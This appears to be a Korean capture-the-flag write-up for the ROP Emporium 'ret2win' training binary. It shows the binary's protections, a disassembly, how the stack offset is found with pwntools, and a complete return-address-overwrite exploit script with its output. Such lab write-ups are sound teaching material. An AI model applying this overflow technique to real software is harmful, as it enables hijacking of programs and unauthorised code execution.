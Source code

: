 # [ret2win](https://ropemporium.com/challenge/ret2win.html)
<br />

**Discription:**
> Locate a method that you want to call within the binary.
Call it by overwriting a saved return address on the stack.
> 
<br />
<br />

# x86_64

**Binary Protections:**
```yaml
[*] '/home/kali/pico/ret2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
<br />

```yaml
pwndbg> disass ret2win
Dump of assembler code for function ret2win:
   0x0000000000400756 <+0>:     push   rbp
   0x0000000000400757 <+1>:     mov    rbp,rsp
   0x000000000040075a <+4>:     mov    edi,0x400926
   0x000000000040075f <+9>:     call   0x400550 <puts@plt>
   0x0000000000400764 <+14>:    mov    edi,0x400943
   0x0000000000400769 <+19>:    call   0x400560 <system@plt>
   0x000000000040076e <+24>:    nop
   0x000000000040076f <+25>:    pop    rbp
   0x0000000000400770 <+26>:    ret
pwndbg> x/s 0x400943
0x400943:       "/bin/cat flag.txt"
```
`ret2win`은 `system`을 호출하고, 인자로 `"/bin/cat flag.txt"`를 사용하는 것을 알 수 있습니다. 

```yaml
$ python3 -q
>>> from pwn import *
>>> p = process("./ret2win")
[+] Starting local process './ret2win': pid 848
>>> p.sendline(cyclic(200, n=8))
>>> p.wait()
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 848)
>>> Corefile("./core.848")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.848'
    Arch:      amd64-64-little
    RIP:       0x400755
    RSP:       0x7fffadd7a4d8
    Exe:       '/home/kali/pico/ret2win' (0x400000)
    Fault:     0x6161616161616166
Corefile('/home/kali/pico/core.848')
>>> cyclic_find(0x6161616161616166, n=8)
40
```
오프셋은 40 입니다.

<br />

```python
from pwn import *

context.log_level = "error"
context.arch = "amd64"

p = process("./ret2win")

ret2win = 0x400756
str = 0x00400943

pay = flat({40:ret2win}, str)

p.sendline(pay)
p.interactive()
```
```bash
$ python3 test.py
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
$
```
